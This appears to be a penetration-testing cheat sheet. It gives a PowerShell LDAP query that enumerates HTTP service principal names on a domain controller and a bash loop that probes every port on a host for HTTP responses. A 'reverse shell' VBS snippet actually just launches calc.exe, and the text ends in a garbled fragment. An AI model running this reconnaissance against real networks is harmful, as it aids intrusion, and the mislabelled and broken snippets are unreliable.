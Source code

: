 #### Powershell Script for Enumerating service principal names to figure out the running services on the domain controller. In the example below, we enumerate for ‘http’.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
```

#### Bash code to check ports running using http

The below script is useful when you want to discover services' ports running using \[http]

```bash
for i in {0..65535}; do 
	response=$(curl -s http://10.10.10.55:{i}; 
	len=$(echo $response | wc -w); 
	if [ "$len" -gt "0" ]; then 
	echo -n "${i}: "; 
	echo $response | tr -d "\r" | head -1 | cut -c-100; 
	fi; 
done
```

#### Visual Basic Reverse Shells

Create a new file named `shell.vbs` and paste the below content

```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

And then execute below on the target

```
wscript shell.vbs
```

You could also name file `shell.vbs.txt` and then execute on the target as bellow


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"